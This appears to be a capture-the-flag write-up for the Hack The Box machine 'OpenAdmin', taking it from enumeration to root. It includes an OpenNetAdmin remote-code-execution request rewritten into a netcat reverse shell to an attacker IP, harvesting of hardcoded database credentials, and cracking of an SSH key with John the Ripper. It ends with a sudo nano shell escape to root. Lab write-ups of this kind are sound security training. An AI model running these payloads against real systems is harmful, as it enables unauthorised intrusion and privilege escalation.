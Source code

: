 # OpenAdmin

![image](https://user-images.githubusercontent.com/10210108/83579642-d2e81280-a507-11ea-80f3-62eaf5fec9b8.png)

## Overview

OpenAdmin is an Ubuntu box running an apache webserver. It hosts various example sites and OpenNetAdmin that was vulnerable to an unauthenticated remote code execution which I used to create a reverse shell to get initial foothold. Some enumeration of the /var/www folder revealed a password which was used to ssh into the target as the user jimmy. I discovered a webserver that was only accessible internally that was hosting files out of /var/www/internal. This folder contained a php file with a hardcoded password hash which I able to easily lookup with an internet search. I created a local port forward to my box where I was able to access the website and log in. The page displayed an encrypted rsa private key which I cracked with john the ripper to gain the password. With the private key I successfully logged in with joanna who was able to run sudo with no password, due to a vulnerability in nano I was able escalate my privileges to root.

## Enumeration

**Software**

* Ubuntu 18.04.3 LTS 
* OpenNetAdmin v18.1.1

**Port Scan**

```
nmap -sT -p- -v -Pn 10.10.10.171 -oN /home/kali/boxes/openadmin
```

* 22/tcp - ssh
* 80/tcp - http - /ona, OneNetAdmin v18.1.1

**Directory/File Scan**

```
gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html -t 40
```

* /music
* /index.html
* /artwork
* /sierra
* /server-status
* /ona (found manually)

## Steps (user)

Browsing to http://10.10.10.171 shows the default Apache2 page. 

![image](https://user-images.githubusercontent.com/10210108/83579855-66214800-a508-11ea-9174-e778ec66c80c.png)

After manually reveiwing the results from the gobuster scan it looked this box was hosting various example webpages. Clicking Login on http://10.10.10.171/music redirected me to http://10.10.10.171/ona which brought me to an OpenNetAdmin page.

![image](https://user-images.githubusercontent.com/10210108/83583694-08dec400-a513-11ea-9e3f-e30e9f0dd3fa.png)

I did an internet search and found that the default credentials for OpenNetAdmin were admin:admin. I tried those on the target and successfully logged in as the admin account. Once logged in I went to menu | ona | about and noted the version.

![image](https://user-images.githubusercontent.com/10210108/83583779-43e0f780-a513-11ea-9da7-9916acdaa2e1.png)

Doing a search in searchsploit for opennetadmin showed 3 results, two of these were for the same version as the target v18.1.1, and one was metasploit so I went with 47691.

![image](https://user-images.githubusercontent.com/10210108/83583592-bdc4b100-a512-11ea-8f6b-f2bd72e27176.png)

Reviewing the exploit shows a pretty simple command shell uring curl to send a post request.

```
searchsploit -x 47691
```

![image](https://user-images.githubusercontent.com/10210108/83583960-c36ec680-a513-11ea-80a9-d11d2a0183c7.png)

The exploit creates a cmd shell but it's pretty limiting so I copied the string from the exploit and in between **ip%3D%#E** and **&xajaxargs[]=ping"** I added a bash command that creates a reverse shell (url encoded). I started up a netcat listner on my box (nc -lvnp 4200) and ran the command.

```
curl -S -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;rm+/tmp/z%3bmkfifo+/tmp/z%3bcat+/tmp/z|/bin/sh+-i+2>%261|nc+10.10.14.26+4200+>/tmp/z&xajaxargs[]=ping" "http://10.10
.10.171/ona/"
```

I received a callback and shell as www-data

![image](https://user-images.githubusercontent.com/10210108/83585455-e56a4800-a517-11ea-8736-913c2429eaad.png)

After doing some enumeration of the /var/www/ona directory I came across some credentials in a file called database_settings.inc.php in the /var/www/ona/local/config folder - **ona_sys:n1nj4W4rri0R!**

```
<?php                   
$ona_contexts=array (   
  'DEFAULT' =>          
  array (               
    'databases' =>      
    array (             
      0 =>              
      array (           
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),                
    ),                  
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),                    
);          
```
I wasn't able to log into mysql but I was able to login via ssh as jimmy using the n1nj4W4rri0R! password.

> Note: The user flag was not present for this user

In the /var/www/ I found a folder called "internal" that was owned by Jimmy. This folder contained a file called main.php which had some php code that compared the password against a password hash for authentication. 

![image](https://user-images.githubusercontent.com/10210108/83586702-2e6fcb80-a51b-11ea-839d-ccf2de14f381.png)

I did an internet search for the hash and found a [site](https://md5hashing.net) that had hashed it already - **Revealed**

![image](https://user-images.githubusercontent.com/10210108/83586919-b3f37b80-a51b-11ea-91b0-059ce2595766.png)

Running netstat showed that the target was listening on an odd port 52846 via the loopback address.

![image](https://user-images.githubusercontent.com/10210108/83587360-ebaef300-a51c-11ea-8bc6-98b76ae4b9fc.png)

I ran a GET request with curl and confirmed that it was a web server.

```
curl --head http://127.0.0.1:52846
```

![image](https://user-images.githubusercontent.com/10210108/83587761-d5edfd80-a51d-11ea-9491-df0fc650f440.png)


I created a local port forward so I could browse to the site from my box.

```
ssh jimmy@10.10.10.171 -p 22 -L52846:127.0.0.1:52846
```

I browsed to http://127.0.0.1:52846 and logged in with **jimmy:Revealed**

![image](https://user-images.githubusercontent.com/10210108/83587885-1d748980-a51e-11ea-94de-339d9429dd97.png)

After logging in an encrypted RSA private key is displayed on the page along with the text "Don't forget your 'ninja' password"

![image](https://user-images.githubusercontent.com/10210108/83588035-83611100-a51e-11ea-8436-391b09cc22f6.png)

I copied the private key and converted it to John format 

```
/usr/share/john/ssh2john.py id_rsa_enc  > id_rsa_crack
```

I used John the Ripper and the rockyou wordlist to crack the password and was successful, the password was **bloodninjas**

```
john id_rsa_crack --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/10210108/83588536-a50ec800-a51f-11ea-9879-1262a8ea8dbf.png)

I removed the password from id_rsa_enc using the following command, specifying bloodninjas as the password.

```
openssl rsa -in id_esa_enc -out id_rsa
```

![image](https://user-images.githubusercontent.com/10210108/83588645-d8515700-a51f-11ea-8dd1-0d7d8dada3aa.png)

I set the appropriate permissions on id_rsa (chmod 600 id_rsa) and was able to log in to with the account "joanna"

```
ssh -i id_rsa joanna@10.10.10.171
```

![image](https://user-images.githubusercontent.com/10210108/83588782-1cdcf280-a520-11ea-85a5-4020969d3930.png)

## Steps (root/system)

One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that joanna can use nano to open a specific file, /opt/priv with no password.

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy.

![image](https://user-images.githubusercontent.com/10210108/83588916-6a595f80-a520-11ea-8ebd-509fcfe79193.png)

Looking up nano on [GTFOBins](https://gtfobins.github.io/) shows that there is a shell escape for nano.

![image](https://user-images.githubusercontent.com/10210108/83589174-156a1900-a521-11ea-9c28-0a5f3c3abd37.png)

```
^R^X then reset; sh 1>&0 2>&0
```

Running 'sudo /bin/nano /opt/priv' and the sequence of commands provided by GTFOBins gave me a root shell.

![image](https://user-images.githubusercontent.com/10210108/83589266-4b0f0200-a521-11ea-9aa6-0942ea74a2ca.png)


